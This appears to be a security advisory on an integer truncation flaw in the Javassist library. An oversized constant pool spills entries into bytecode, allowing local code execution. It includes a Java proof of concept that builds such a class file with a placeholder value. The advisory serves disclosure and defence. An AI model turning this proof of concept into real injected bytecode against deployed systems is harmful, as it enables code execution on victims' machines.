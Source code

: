```yaml
---
description: Low severity. Integer truncation in Javassist leads to local code execution
title: Javassist local code execution
date_published: "2022-08-11"
last_updated: "2022-08-11"
xray_id: 
vul_id: 
cvss: 6.4
severity: low
discovered_by: Omer Kaspi
type: vulnerability

---
```


## Summary

Integer truncation in Javassist leads to local code execution

## Component

[Javassist](https://github.com/jboss-javassist/javassist)

## Affected versions

Javassist (,3.29.1)

## Description

The issue lies in the write() function of the ConstPool object. When writing the ConstPool into a class file, the length field is written as a short integer, but the numOfItems Variable is not checked to see if it is bigger than the maximum value of short (65535). If we try to write a class file with a ConstPool bigger than 65535, the elements from position 65535 onwards wouldn’t be considered as part of the ConstPool, and will be interpreted as arbitrary bytecode. An attacker that can insert arbitrary integers into a classfile, could use this to insert malicious bytecode to the class, for example a constructor which will cause code execution when the class file is loaded



## PoC

```java
import javassist.NotFoundException; 
import javassist.bytecode.ClassFile; 
import javassist.bytecode.ConstPool; 
import java.io.DataOutputStream; 
import java.io.File;

import java.io.FileOutputStream; 
import java.io.IOException; 
public class JavassistIntTruncationExample 
{ 
	public static void main(String argv[]) throws IOException, NotFoundException { 
		File yourFile = new File("malicious.class"); 
		yourFile.createNewFile(); 
		FileOutputStream oFile = new FileOutputStream(yourFile, false); DataOutputStream stream = new DataOutputStream(oFile); 
		ClassFile clazz_file_before_write = new 
		ClassFile(false,"test",null); 
		ConstPool pool_before_write = 
		clazz_file_before_write.getConstPool(); 
		// Adding enough ints to cause integer truncation 
		for(int i = 0; i< 65527; i++) { 
			pool_before_write.addIntegerInfo(0xcafebabe); 
		} 
		// BUG: This integer will be added as arbitrary bytecode! 
		pool_before_write.addIntegerInfo(0xdeadbeef); 
		System.out.println("Constpool size" + pool_before_write.getSize()); clazz_file_before_write.write(stream); 
	} 
} 

```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[GitHub issue](https://github.com/jboss-javassist/javassist/issues/423)
